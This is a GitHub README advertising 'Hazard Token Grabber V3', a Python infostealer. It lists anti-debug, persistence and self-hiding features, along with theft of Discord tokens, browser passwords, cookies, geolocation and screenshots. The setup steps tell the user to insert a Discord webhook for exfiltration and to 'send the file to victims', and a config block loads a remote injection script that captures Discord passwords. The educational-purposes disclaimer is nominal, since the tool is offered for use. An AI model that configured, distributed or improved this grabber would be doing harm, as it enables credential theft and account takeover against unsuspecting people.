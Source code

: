 <h1 align="center">
  Hazard Token Grabber V3 🔧
</h1>

<p align="center"> 
  <kbd>
<img src="https://camo.githubusercontent.com/b4909d8c45134b255c5e0c959cbca68f655d044e944c39fdcd91bbbb5d58eb1e/68747470733a2f2f692e646973636f72642e66722f5053532e706e67">
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdmo1/Hazard-Token-Grabber-V3?style=flat-square">
  <img src="https://img.shields.io/github/last-commit/Rdmo1/Hazard-Token-Grabber-V3?style=flat-square">
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdmo1_Hazard-Token-Grabber-V3&metric=ncloc"/>
  <img src="https://img.shields.io/github/stars/Rdmo1/Hazard-Token-Grabber-V3?color=%02B039&label=Stars&style=flat-square">
  <img src="https://img.shields.io/github/forks/Rdmo1/Hazard-Token-Grabber-V3?color=%02B039&label=Forks&style=flat-square">
</p>

<h2 align="center">
  Hazard-Token-Grabber-V3 was made with

CODE 🟩

</h2>

**NOTE:** \
Hazard was made for educational purposes, therefor all consequences caused by your actions are **your** responsibility and accountability.

---

## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://discord.gg/VC3N3AXfgF)
- [🎉・Setting up Hazard Token Grabber.V3](#setup)
- [⚙・Config](#config)
- [🔍・Screenshot](#screenshot)

## <a id="features"></a>⚙️ 〢 Features

- `Anti-vm/Anti-debug` 🟢 
- `Add to startup` 🟢
- `Hides itself`🟢
- `Options are configurable`🟢
- `Pretty Fast Even if it Was Made With Python`🟢
- `Windows Product Key & Build Info`🟢
- `IP & Geolocation. (Country, City, Google Maps Location)`🟢
- `A screenshot of all their monitors`🟢
- `All valid/working discord tokens. (Bypasses BetterDiscord, Token Protector and Discord's new encryption)`🟢
- `Discord Injection ( you get there password if they change it )`🟢
- `All Passwords, Cookies and History from Google`🟢

## <img src="https://raw.githubusercontent.com/Rdmo1/images/master/Hazard-Token-Grabber-V3/info.png">

---

## <a id="setup"></a> 📁 〢 Setting up Hazard Token Grabber.V3

1. Install [python](https://www.python.org/) and add it to [path](https://datatofish.com/add-python-to-windows-path/).
2. Open up [hazard.py](https://github.com/Rdmo1/Hazard-Token-Grabber-V3/blob/master/hazard.py) with notepad or some other editor
3. Locate the config at the top of the file and Replace "WEBHOOK_HERE" with your [discord webhook](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
4. and save it
5. for the file name , Put something in such as "Token_Logger" (You can always rename the file later)
6. Send the file to victims. 😈

## <a id="config"></a>⚙ 〢 Config

If you want to change the config, open up [main.py](https://github.com/Rdmo1/Hazard-Token-Grabber-V3/blob/master/main.py) and locate it at the top. There you can configure the following:

```py
config = {
    # replace WEBHOOK_HERE with your webhook ↓↓
    'webhook': "WEBHOOK_HERE",
    # keep it as it is unless you want to have a custom one
    'injection_url': "https://raw.githubusercontent.com/Rdmo1/Discord-Injection/master/injection.js",
    # set to False if you don't want it to kill programs such as discord upon running the exe
    'kill_processes': True,
    # if you want the file to run at startup
    'startup': True,
    # if you want the file to hide itself after run
    'hide_self': True,
    # does it's best to prevent the program from being debugged and drastically reduces the changes of your webhook being found
    'anti_debug': True,
```

---
## <a id="screenshot"></a>🔍 〢 Screenshot
<p align="center"> 
  <kbd>
<img src="https://cdn.discordapp.com/attachments/1030360968473100331/1030404106134749244/IMG_20221014_165751.png">
  </kbd>
</p>
